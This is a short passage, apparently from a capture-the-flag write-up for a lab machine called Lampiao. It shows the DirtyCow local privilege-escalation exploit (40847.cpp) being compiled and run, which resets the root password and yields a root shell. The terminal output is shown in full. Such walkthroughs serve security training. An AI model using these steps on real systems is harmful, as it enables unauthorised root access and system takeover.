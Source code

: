 Compile the exploit using _g++_

```bash
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dirtycow2 40847.cpp -lutil
```

Now we just compile and execute the exploit and get root access.

```bash
tiago@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dirtycow2 40847.cpp -lutil
<ll -pedantic -O2 -std=c++11 -pthread -o dirtycow2 40847.cpp -lutil
tiago@lampiao:/tmp$ ls
ls
40847.cpp  dirtycow2  l  vmware-root
tiago@lampiao:/tmp$ ./dirtycow2
./dirtycow2
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
tiago@lampiao:/tmp$ su root
su root
Password: dirtyCowFun

root@lampiao:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)

```
